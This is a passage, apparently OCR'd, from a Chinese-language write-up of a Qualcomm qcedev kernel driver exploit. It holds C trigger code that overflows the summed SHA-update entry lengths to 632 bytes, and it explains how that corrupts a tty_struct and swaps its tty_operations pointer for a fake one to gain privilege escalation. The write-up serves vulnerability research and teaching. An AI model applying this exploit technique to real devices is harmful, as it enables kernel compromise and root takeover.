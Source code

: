 ```c
        params.data[1].vaddr = NULL;
        for (i = 2; i < params.entries; i++) {
                params.data[i].len = 0x1fffffff;
                params.data[i].vaddr = NULL;
        }

        cmd = QCEDEV_IOCTL_SHA_UPDATE_REQ;
        ret = ioctl(fd, cmd, &params);
        if(ret<0) {
                printf("[-] ioctl fail %s\n",strerror(errno));
                return;
        }
        printf("[+] succ trigger\n");
}

```

`4128 + 536867423 + 7 * 0x1fffffff = 632`

溢出的方法如上，我们让 entry 的数目为 9 个，第一个长度为 4128, 第二个为 536867423， 其他7个为0x1fffffff 

这样他们加起来溢出之后的值就是 632， 这个长度刚好是 **struct tty_struct** 的长度，我们用  **qcedev_sha_op_req.data[0].vaddr[4096]** 这个数据来填充被溢出的 **tty_struct** 的内容

主要是填充两个地方，一个是最开头的 **tty magic**, 另一个就是偏移 24Bype 的 **tty_operations** 指针，我们将这个指针覆盖为伪指针 **fake_ptm_fops**. 

之后的提权操作与 cve-2016-6738 类似，

```c

include/linux/tty_driver.h

struct tty_operations {
        struct tty_struct * (*lookup)(struct tty_driver *driver,
                        struct inode *inode, int idx);
        int  (*install)(struct tty_driver *driver, struct tty_struct *tty);
        void (*remove)(struct tty_driver *driver, struct tty_struct *tty);
        int  (*open)(struct tty_struct * tty, struct file * filp);
        void (*close)(struct tty_struct * tty, struct file * filp);
        void (*shutdown)(struct tty_struct *tty);
        void (*cleanup)(struct tty_struct *tty);
        int  (*write)(struct tty_struct * tty,
                      const unsigned char *buf, int count);
        int  (*put_char)(struct tty_struct *tty, unsigned char ch);
        void (*flush_chars)(struct tty_struct *tty);
        int  (*write_room)(struct tty_struct *tty);
        int  (*chars_in_buffer)(struct tty_struct *tty);
        int  (*ioctl)(struct tty_struct *tty,
                    unsigned int cmd, unsigned long arg);
        long (*compat_ioctl)(struct tty_struct *tty,
                             unsigned int cmd, unsigned long arg);
...
}

```
